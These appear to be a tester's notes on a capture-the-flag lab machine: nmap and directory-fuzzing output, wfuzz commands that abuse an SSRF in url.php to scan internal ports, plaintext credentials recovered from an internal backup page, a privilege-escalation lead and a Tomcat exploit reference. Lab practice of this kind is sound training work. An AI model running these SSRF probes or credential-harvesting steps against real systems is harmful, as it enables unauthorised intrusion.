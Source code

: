 ============== Enumeration ==============

Nmap (nmap -p 22,8009,8080,60000 -sC -sV 10.10.10.55)
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:d7:ca:0e:b7:cb:0a:51:f7:2e:75:ea:02:24:17:74 (RSA)
|   256 e8:f1:c0:d3:7d:9b:43:73:ad:37:3b:cb:e1:64:8e:e9 (ECDSA)
|_  256 6d:e9:26:ad:86:02:2d:68:e1:eb:ad:66:a0:60:17:b8 (ED25519)
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5 - Error report
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Potentially risky methods: PUT DELETE
60000/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title:         Kotarak Web Hosting        
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

ffuf (port 60000)
```bash
ffuf -u 'http://10.10.10.55:60000/FUZZ' -w raft-large-words.txt -e .php --fc 403

index.php               [Status: 200, Size: 1169, Words: 226, Lines: 77]
info.php                [Status: 200, Size: 92360, Words: 4592, Lines: 1110]
.                       [Status: 200, Size: 1169, Words: 226, Lines: 77]
url.php                 [Status: 200, Size: 2, Words: 1, Lines: 3]

```

ffuf (port 8080)
```bash
ffuf -u 'http://10.10.10.55:8080/FUZZ' -w raft-large-words.txt 

docs                    [Status: 302, Size: 0, Words: 1, Lines: 1]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1]
```

ffuf (abusing ssrf)
```bash
ffuf -u 'http://10.10.10.55:60000/url.php?path=http://localhost:8009/FUZZ' -w raft-large-words.txt -e .php,.txt,.html --fw 1,2

DIDNT FIND ANYTHING!!!
```

wfuzz (abusing ssrf for port scanning)
```bash
wfuzz -u 'http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ' -z range,0-65535 --hw 0

000000023:   200        4 L      4 W        62 Ch       "22"                                       
000000091:   200        11 L     18 W       156 Ch      "90"                                       
000000111:   200        17 L     24 W       187 Ch      "110"                                      
000000201:   200        3 L      2 W        22 Ch       "200"                                      
000000321:   200        26 L     109 W      1232 Ch     "320"                                      
000000889:   200        78 L     265 W      3955 Ch     "888"                                      
000003307:   200        2 L      5 W        123 Ch      "3306"                                     
000008081:   200        2 L      47 W       994 Ch      "8080"                                     
000060001:   200        78 L     130 W      1171 Ch     "60000"                       
```

============== Enumeration End ==============

============== Credentials ==============

From http://10.10.10.55:60000/url.php?path=http://localhost:888?doc=backup:
	admin:3@g01PdhB!
	atanas:f16tomcat! OR Password123!


============== Credentials End ==============

For privesc:
	/var/tmp/mkinitramfs_CAAb2h/bin/ntfs-3g 

phpinfo (http://10.10.10.55:60000/info.php):
	disabled functions :
	
Weird IP:
	10.0.3.133
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority

	
Tomcat exploit (could be useful once logged into interface):
	jsp/webapps/42966.py

